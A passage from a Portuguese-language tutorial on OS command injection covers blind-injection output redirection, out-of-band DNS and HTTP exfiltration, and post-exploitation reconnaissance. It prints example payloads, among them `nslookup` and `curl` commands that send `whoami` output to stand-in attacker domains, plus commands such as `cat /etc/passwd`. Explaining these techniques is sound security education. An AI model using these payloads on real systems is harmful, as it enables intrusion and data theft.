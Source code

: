 **Payload**: `& whoami > /var/www/static/output.txt &`

Após enviar este *payload*, o invasor simplesmente navega em seu navegador para `https://site-vulneravel.com/static/output.txt` para ler os resultados do comando `whoami`. Esta técnica transforma efetivamente uma vulnerabilidade cega em uma com saída legível.

#### 3.2.3. Técnicas Out-of-Band (OAST): Exfiltração de Dados via DNS e HTTP

Esta é a técnica mais avançada, usada quando os métodos baseados em tempo não são confiáveis ou o redirecionamento de saída não é possível. Envolve forçar o servidor a fazer uma requisição de rede externa para um sistema que o invasor controla.

- **Exfiltração por DNS**: O invasor usa um comando como `nslookup` ou `curl` para acionar uma consulta DNS para um domínio que ele controla. Os dados a serem exfiltrados são embutidos como um subdomínio.

  **Payload**: `& nslookup whoami.dominio-controlado-pelo-invasor.com &`

  **Resultado**: O servidor vulnerável fará uma consulta DNS para um domínio como `www-data.dominio-controlado-pelo-invasor.com`. O invasor monitora os logs de seu servidor DNS, vê essa requisição e consegue exfiltrar com sucesso o nome de usuário. Ferramentas como o Burp Collaborator automatizam este processo.

- **Exfiltração por HTTP**: Da mesma forma, `curl` ou `wget` podem ser usados para enviar uma requisição HTTP para o servidor de um invasor com os dados na URL.

  **Payload**: `& curl http://servidor-do-invasor.com/?data=$(whoami | base64) &`

  **Resultado**: Os logs do servidor web do invasor conterão o nome de usuário codificado em base64.

A progressão de técnicas *in-band* para baseadas em tempo e, finalmente, para OAST, demonstra uma clara corrida armamentista evolutiva entre invasores e defensores. À medida que as defesas básicas, como ocultar mensagens de erro, se tornaram comuns, os invasores desenvolveram métodos mais sutis, como atrasos de tempo, para inferir informações. Com a melhoria do monitoramento de rede, os invasores migraram para protocolos que quase sempre têm permissão de saída, como o DNS, tornando o OAST um *bypass* altamente eficaz. Isso ilustra que a segurança não é um estado estático, mas um processo contínuo de adaptação e contra-adaptação.

## Seção 4: O Impacto Devastador da Exploração

Esta seção detalha as consequências potenciais de um ataque de Injeção de Comandos bem-sucedido, ilustrando como ele pode servir como uma cabeça de ponte para um comprometimento muito maior.

### 4.1. Acesso Não Autorizado a Dados e Reconhecimento do Sistema

O objetivo inicial de um invasor é frequentemente a coleta de informações. Com a execução de comandos, um invasor pode ler arquivos sensíveis (por exemplo, `cat /etc/passwd`), listar o conteúdo de diretórios (`ls -la`), visualizar configurações de rede (`ifconfig` ou `ip addr`) e identificar processos em execução (`ps aux`) para entender o sistema que comprometeu. Esta fase de reconhecimento é crucial para planejar os próximos passos do ataque.

### 4.2. Manipulação e Destruição de Dados
